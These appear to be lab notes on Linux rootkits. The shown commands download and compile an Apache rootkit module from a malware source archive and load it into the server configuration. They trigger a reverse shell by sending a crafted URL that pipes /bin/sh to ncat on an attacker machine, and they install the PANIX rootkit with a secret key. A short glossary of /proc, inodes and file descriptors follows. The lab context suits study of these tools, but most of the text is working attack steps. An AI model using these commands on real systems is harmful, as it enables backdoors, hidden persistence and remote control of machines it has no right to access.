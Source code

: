 # Linux Rootkits

## Lab Notes: Exploring Linux Rootkits

### Installing and Using Apache-Rootkit

#### Ubuntu

```
sudo apt update && sudo apt install apache2 apache2-dev apache2-utils ncat
cd /tmp
wget -c https://github.com/vxunderground/MalwareSourceCode/blob/main/Linux/Rootkits/Rootkit.Linux.Apache-rootkit.7z
7z e Rootkit.Linux.Apache-rootkit.7z
sudo apxs -c -i mod_authg.c
sudo nano /etc/apache2/apache2.conf
# add in: 
    LoadModule authg_module /usr/lib/apache2/modules/mod_authg.so
    <Location /authg>
    SetHandler authg
    </Location>
sudo systemctl restart apache2
```

#### Kali

```
nc -nvlp 5555
# access server at http://10.0.5.6/authg?c=/bin/sh|%20ncat%20kali-ip-address%205555%20-e%20/bin/bash
```

### Installing and Using PANIX

```
curl -sL https://github.com/Aegrah/PANIX/panix.sh -o panix.sh
chmod +x panix.sh
sudo apt install linux-headers-6.11.2-amd64
sudo ./panix.sh --rootkit --secret "P4N1X" --identifier "panix"
```

### Additional Notes

* kill: sends signals to a process, not just kill it
* /proc: directory on a file system (that doesn't exist when the system is turned off) that has a directory for each process
  * /proc/net/tcp: file that shows all listening processes and their sockets
* inode: each file on a system can be identified by a unique ID (inode)
* within a process, there are IDs pointing to a resource (file, pipe, memory location, socket)- these are file descriptors in Linux or handles in Windows
  * /proc/\[PID]/fd/\*
  * contains the data streams (0 (stdin), 1 (stdout), 2 (stderr)
